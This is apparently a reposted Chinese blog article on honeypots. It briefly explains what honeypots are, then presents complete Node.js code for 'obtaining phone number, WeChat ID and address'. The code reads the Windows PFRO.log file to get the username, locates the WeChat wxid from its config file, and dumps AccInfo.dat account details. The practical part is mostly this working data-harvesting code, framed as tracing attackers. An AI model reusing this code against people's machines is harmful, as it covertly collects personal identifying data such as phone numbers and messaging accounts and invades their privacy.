

# 蜜罐技术

首先，我们先讲一下蜜罐的概念，你可以简单理解较为蜜罐就是一个陷阱，故意暴露一些我们人为设计好的漏洞，让攻击者自投罗网。


## 一、蜜罐介绍
蜜罐是对攻击者的欺骗技术，用以监视、检测、分析和溯源攻击行为，其没有业务上的用途，所有流入/流出蜜罐的流量都预示着扫描或者攻击行为，因此可以比较好的聚焦于攻击流量。

蜜罐可以实现对攻击者的主动诱捕，能够详细地记录攻击者攻击过程中的许多痕迹，可以收集到大量有价值的数据，如病毒或蠕虫的源码、黑客的操作等，从而便于提供丰富的溯源数据。另外蜜罐也可以消耗攻击者的时间，基于JSONP等方式来获取攻击者的画像。

但是蜜罐存在安全隐患，如果没有做好隔离，可能成为新的攻击源。

## 二、蜜罐技术获取手机号、微信号、地址

1.读取 PFRO日志文件（这个文件是存放ISA监控日志的信息）




通过这个文件可以读取系统的用户名 


Nodejs 代码

```js
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

})
```
2.通过用户名读取wxid

```ts
//获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}
```
3.最后通过微信ID 读取你的微信信息（手机号，微信号，等）

## 完整代码

```js
import fs from 'fs';
//获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}
//读取信息
const getData = <T>(path: T, wxId: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/${wxId}/config/AccInfo.dat`).toString('utf-8')
    return data

}
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

}) 作者：小满zs https://www.bilibili.com/read/cv16944860?spm_id_from=333.999.0.0 出处：bilibili
```